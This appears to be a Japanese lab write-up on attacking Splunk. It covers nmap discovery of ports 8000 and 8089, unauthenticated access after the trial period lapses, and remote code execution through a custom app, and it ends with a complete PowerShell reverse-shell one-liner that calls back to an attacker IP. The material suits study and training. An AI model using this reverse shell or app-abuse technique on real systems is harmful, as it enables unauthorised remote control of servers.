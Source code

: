 Splunkの発見には、nmapのサービススキャンが有効
- **8000/tcp**：Splunk Webインターフェース
- **8089/tcp**：Splunk REST APIとの通信に使用される管理ポート
```shell-session
sudo nmap -sV 10.129.201.50
<..SNIP..>
8000/tcp open  ssl/http      Splunkd httpd
8080/tcp open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd
```

**列挙**
- Splunk Enterpriseのトライアル版は、「60日後に認証不要の無料版（Splunk Free）」へ自動的に切り替わる
- システム管理者がSplunkを試用目的でインストールし、そのまま忘れ去られてしまうケースは珍しくない
アクセスURL
- `https://10.129.201.50:8000/en-US/app/launcher/home`

認証なしで、ログインできた時こんなことができる
- データの閲覧
- レポートの実行
- ダッシュボードの作成
- Splunkbaseライブラリからのアプリのインストール
- カスタムアプリケーションの導入 など

## 攻撃
- カスタムアプリケーションを作成して、Python、バッチ（Batch）、Bash、またはPowerShellスクリプトを実行させることで、Splunk上でリモートコード実行（RCE）を実現できる

windows上で実行されている場合
- SplunkにはPythonが標準で搭載されている
- PythonまたはPowerShellスクリプトを使ったカスタムアプリを作成することで、リモートコード実行が可能になる

### 標準機能の悪用でのRCE
#### Windows
- 今回の攻撃では、以下のような構成のSplunkアプリケーションを使用する
- bin ディレクトリには実行させたいスクリプト（ここではPowerShellリバースシェル）を置き、default ディレクトリには inputs.conf を配置
```shell-session
mkdir splunk_shell
cd splunk_shell
mkdir bin
mkdir default
```

PowerShellリバースシェルの例（ワンライナー）
```powershell-session
nano bin/run.ps1

$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
